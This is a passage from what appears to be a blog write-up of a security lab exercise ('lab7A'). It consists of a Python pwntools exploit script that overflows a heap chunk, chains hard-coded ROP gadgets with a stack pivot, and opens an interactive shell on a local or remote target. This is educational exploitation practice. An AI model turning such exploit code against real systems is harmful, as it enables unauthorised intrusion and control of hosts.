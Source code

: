   # heap chunk 2
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline("1")
  r.recvuntil("Choice: ")

  # edit heap chunk 1
  r.sendline("2")
  r.recvuntil(": ")
  r.sendline("0")
  r.recvuntil(": ")
 
  payload_1  = 'A'*140
  payload_1 += p32(0x080b29c1) # GADGET 1 # dec ebp ; add esp, 0x24 ; mov eax, edx ; pop ebx ; pop esi ; ret   
  payload_1 += 'AAAA'          # filler
  payload_1 += rop_chain()
  
  r.sendline(payload_1) # trigger overflow!
  r.recvuntil("Choice: ")

  # print heap chunk 2
  r.sendline("4")
  r.recvuntil(": ")
  
  payload_2  = '1'+'A'*7
  payload_2 += p32(0x080ec008) # static address popped into esi
  payload_2 += p32(0x08097ce3) # GADGET 2 # add eax, 8 ; pop edi ; ret
  payload_2 += "AAAA"          # filler
  payload_2 += p32(0x080e2e52) # GADGET 3 # xchg eax, esp ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret
  payload_2 += 'A'*(31-24)     # filler 

  r.sendline(payload_2)
  
  r.success('Enjoy your shell...')  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['./lab7A'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}
